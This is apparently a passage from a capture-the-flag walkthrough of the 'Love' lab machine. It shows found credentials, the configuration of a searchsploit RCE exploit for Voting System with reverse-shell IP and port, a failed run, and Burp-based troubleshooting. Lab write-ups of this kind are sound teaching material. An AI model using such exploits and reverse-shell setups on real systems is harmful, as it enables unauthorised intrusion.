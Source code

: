 ![image-20210721141907134](https://0xdfimages.gitlab.io/img/image-20210721141907134.png)

It seems to be giving creds for the Voting System, and they work.

### RCE via Searchsploit Script

#### Initial Failure

Having identified an authenticated RCE exploit in Voting System earlier in
searchsploit, and now creds, ‘ll give that a try. `searchsploit -m
php/webapps/49445.py` will copy it to my current working directory. It’s a
Python script. At the top there’s some config info to update:

    
    
    # --- Edit your settings here ----
    IP = "love.htb" # Website's URL     
    USERNAME = "admin" #Auth username 
    PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password 
    REV_IP = "10.10.14.6" # Reverse shell IP   
    REV_PORT = "443" # Reverse port  
    # --------------------------------
    

I ran the exploit, and nothing happened:

    
    
    oxdf@parrot$ python 49445.py 
    Start a NC listener on the port you choose above and run...
    

#### Troubleshooting

Looking at the Python script, it is using `requests` to send HTTP requests to
the website. At the start, it creates a session, which will hold things like
cookies to enable things like logging in. It stores it in the global variable
`s`. I’ll add Burp as a proxy to that session so that I can see the requests
it is sending and potentially see what’s wrong:

    
    
    s = requests.Session()
    s.proxies = {'http': 'http://127.0.0.1:8080'}
    

On running the script again, I see three requests, all of which are returning
404:

![image-20210721143836401](https://0xdfimages.gitlab.io/img/image-20210721143836401.png)

It’s not finding any of those pages. Above, I found the admin login page at
`/admin/login.php`, but for some reason this script is adding `/votingsystem`
before that. Right under where I configured the settings, there’s a handful of
URLs defined:
